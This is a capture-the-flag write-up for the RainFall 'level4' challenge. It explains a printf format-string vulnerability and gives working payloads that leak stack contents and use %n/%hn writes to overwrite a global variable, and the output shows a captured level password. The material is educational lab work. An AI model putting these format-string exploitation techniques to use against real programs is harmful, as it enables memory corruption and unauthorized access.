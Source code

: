 # level4

### First analysis

This exercice is probably going to be way more straightforward. It is almost the complete same as the past exercise, with some slight changes. Let's review them:

```c
void p(char *param_1) {
  printf(param_1);
  return;
}

void n(void) {
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}
```

So as we can see there are 2 major changes from level3:
- printf is now in a different function than where fgets is called. For now I don't see how it cound make a difference and how it could have stopped us from exploiting level3 but we will probably find a reason to that.
- m now has to be equal to an address instead of an int. Normally in C, pointers (addresses) are int *, so it isn't that much of a change compared from level3, however if we transform the hex value in decimal 0x1025544 = 16930116. We easily understand that it is going to be hard to store a value of 16930116 using the same method as level3.

Also we can notice that we won't have a shell this time but just the password printed.

### Find a solution

First thing, let's find the address of m and analyze the stack.

m address (using same methods as in level3) is 0x08049810.

Now for the stack:

```sh
level4@RainFall:~$ echo $(python -c "print('AAAABBBB ' + '%x ' * 25)") > /tmp/payload
level4@RainFall:~$ cat /tmp/payload - | /home/user/level4/level4
AAAABBBB b7ff26b0 bffff764 b7fd0ff4 0 0 bffff728 804848d bffff520 200 b7fd1ac0 b7ff37d0 41414141 42424242 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078
```
As far as we know, what we are probably searching for is the beginning of the buffer, and maybe the content in between to manipulate an address or something (?), so we are gonna just analyze what is before the buffer that starts with the "41414141 42424242", the rest is just the "%x " in hexadecimal code. So as we can see the stack is slithly different this time, we have:
- 3 addresses probably from the stack or close (stack starts at bfffe000 so the addresses starting by b7 are more strange)
- 2 null values
- 3 more addresses, 2 from the stack and 1 from the code section probably.
- The buffer size, 200 in hex, 512 in decimal.
- 2 addresses from the stack or close.
- The buffer itself.

The format looks the same at the end, which makes sense, printf is still used, it is just called in another function, that's why we can find an address from the code section, probably the return address of p() to n(), and more saved frame pointer, old values of EBP etc (values starting by 0xb) that is necessary for the stack to work properly.

The first idea to try which may be stupid, is to write 16930116 chars long buffer so %n print this number into m, which would be interpreted as an address by the stack, this address being 0x1025544, the address of m.

Obviously the buffer is 512 chars long maximum (in fgets) but it is not a problem since we can use the synthax of printf to do that. The %08x format allows us to say "even if the %x is 200 at this address, print it with 8 chars, so 00000200". By adding longer padding requests to printf, we could reach this huge number. With simply %8x, it would print spaces instead of 0. (easier to print for a terminal).

```sh
level4@RainFall:~$ echo $(python -c "print('\x10\x98\x04\x08' + '%x ' * 4 + '%8x ' + '%x ' * 6)") > /tmp/payload
level4@RainFall:~$ cat /tmp/payload - | /home/user/level4/level4
b7ff26b0 bffff764 b7fd0ff4 0        0 bffff728 804848d bffff520 200 b7fd1ac0 b7ff37d0
```

Here we crafted a little payload with the address of m at the beginning, '%x ' * 4, to print 4 addresses, stopping to one of the two "0" values, so it is easier to calculate padding on it, we print this 0 value with %8x, as you can see the presence of spaces. And finally we print again "%x " * 6, where we find the last address before the buffer storage space. Meaning the stack pointer for printf is now pointer directly in the address of m, We just have to add a "%n" at the end, and the result will be written in m. Let's check if it works:

```sh
level4@RainFall:~$ echo $(python -c "print('\x10\x98\x04\x08' + '%x ' * 4 + '%8x ' + '%x ' * 6 + '%n')") > /tmp/payload
level4@RainFall:~$ cat /tmp/payload - | /home/user/level4/level4
b7ff26b0 bffff764 b7fd0ff4 0        0 bffff728 804848d bffff520 200 b7fd1ac0 b7ff37d0 
^C
level4@RainFall:~$ 
```

First thing, when adding %n, the program doesn't crash, which means it finds an address that it can access, and can writes in. That's a good news, the program would segfault if it wasn't working. Let's continue.

```sh
0x08048456 in n ()
(gdb) p m
$1 = 90

# change the buffer

0x08048456 in p ()
(gdb) p m
$1 = 182
```

When checking the value of m with different payloads in gdb with the history function, we can see that m changes according to our payload size. Another good news. 

Now let's try to input 16.930.116 characters inside of it.

```sh
level4@RainFall:~$ echo $(python -c "print('\x10\x98\x04\x08' + '%x ' * 4 + '%16930034x ' + '%x ' * 6 + '%n')") > /tmp/payload
level4@RainFall:~$ cat /tmp/payload - | /home/user/level4/level4

[...] # After 16 millions spaces

0 bffff728 804848d bffff520 200 b7fd1ac0 b7ff37d0 
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

I honestly thought the terminal would crash but apparently printing spaces really isn't much for a terminal. We got almost instantly the flag !

We could have optimized that by writing in the high bytes (the 4 firts ones) and the lower bytes after, which would reduce considerably 

### Optimization

Even if it worked, we can easily imagine that in a old or slow machine this would have taken way more time, maybe too much for certains machine. It is a very hypothetical scenario even more nowadays so let's say it's more an excuse to go deeper into it and find how we could have done it without printing almost 17 millions characters.

For that we made a way lighter payload that is printing approcimately 22k characters instead of 16.9 millions.

This is the payload, for more explanation on it (involves maths and is quite hard to understand) you can check Resources/explanation.md

```sh
level4@RainFall:~$ echo $(python -c "print('\x12\x98\x04\x08' + 'AAAA' +'\x10\x98\x04\x08' + '%x' * 10 + '%186x' + '%hn' + '%21570x' + '%hn')") > /tmp/payload
level4@RainFall:~$ cat /tmp/payload - | /home/user/level4/level4
AAAAb7ff26b0bffff764b7fd0ff400bffff728804848dbffff520200b7fd1ac0

[...]  # After 20k spaces

41414141
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

## Important doc

[Exploiting FSV](https://axcheron.github.io/exploit-101-format-strings/)
